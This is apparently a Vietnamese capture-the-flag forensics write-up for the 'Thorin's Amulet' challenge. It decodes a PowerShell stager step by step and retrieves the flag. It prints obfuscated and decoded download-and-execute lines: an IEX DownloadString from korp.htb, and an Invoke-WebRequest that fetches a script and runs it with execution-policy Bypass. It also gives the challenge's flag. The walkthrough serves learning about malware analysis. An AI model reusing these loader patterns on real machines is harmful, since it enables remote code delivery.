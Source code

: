 # _Thorin’s Amulet_ _(FORSENSICS)_

![image](https://github.com/user-attachments/assets/1f8fd6b4-c229-4ca2-aa4e-ce5120d5db9e)

Nhận được file ps1

```powershell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

Decode base64 nhận được 1 đường link, thử truy dùng port để truy cập nhưng kh đc

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

Đọc kĩ lại mô tả thì thấy có NOTE

> Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.

Mình dùng kali để add IP và domain vào /etc/host/

![image](https://github.com/user-attachments/assets/639b3022-3acc-40ac-be10-345154933c52)

Truy cập thử, thì nhận được file ps1 tiếp

```powershell
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```

Lệnh trên thực hiện tải file ps1 và chạy với lệnh Bypass, muốn xem file có gì thì mình dùng curl kết hợp với KEY xác thực

![image](https://github.com/user-attachments/assets/f404de2a-bac1-4d15-a224-45825120d93a)

Decode là nhận được flag

```
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
```

